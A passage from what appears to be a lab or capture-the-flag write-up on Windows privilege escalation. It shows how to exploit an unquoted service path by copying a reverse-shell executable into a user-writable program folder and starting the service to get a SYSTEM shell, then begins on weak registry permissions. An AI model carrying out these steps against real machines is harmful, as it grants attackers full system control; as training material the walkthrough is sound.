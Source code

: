 
This, incidentally, gives us the answer to the question for this task:

> What is the BINARY_PATH_NAME of the unquotedsvc service? \
> > `C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe`

As the task instructs, we make use of `accesschk.exe` for checking access on `C:\Program Files\Unquoted Path Service`.

```console
C:\Users\user> C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\" 
C:\Program Files\Unquoted Path Service
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Users
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
```

Looking through the output of this query we see `RW BUILTIN\Users`, which means that users have read-write access. Moreover, this means that we can just replace the executable on this path with our reverse shell executable (`reverse.exe`). 

```console
C:\Users\user> copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
        1 file(s) copied.
```

Now, if we close off our current reverse shell to free up the port it's using, we can spawn a reverse shell with `SYSTEM` privileges!

To execute this command, we can just use our remmina instance. Be sure to start a listener on your machine to receive the reverse shell connection though.

```console
C:\Users\user> net start unquotedsvc
```

That concludes the exploitation of unquoted service paths, now we move onto the next kind of exploit...

### Service Exploit - Weak Registry Permissions

Weakly defined permission records are a golden ticket to privilege escalation, so it's always worth checking for them. Here, we'll query the `regsvc` service to get some information to get going.

```console
C:\Users\user> sc qc regsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: regsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Insecure Registry Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```
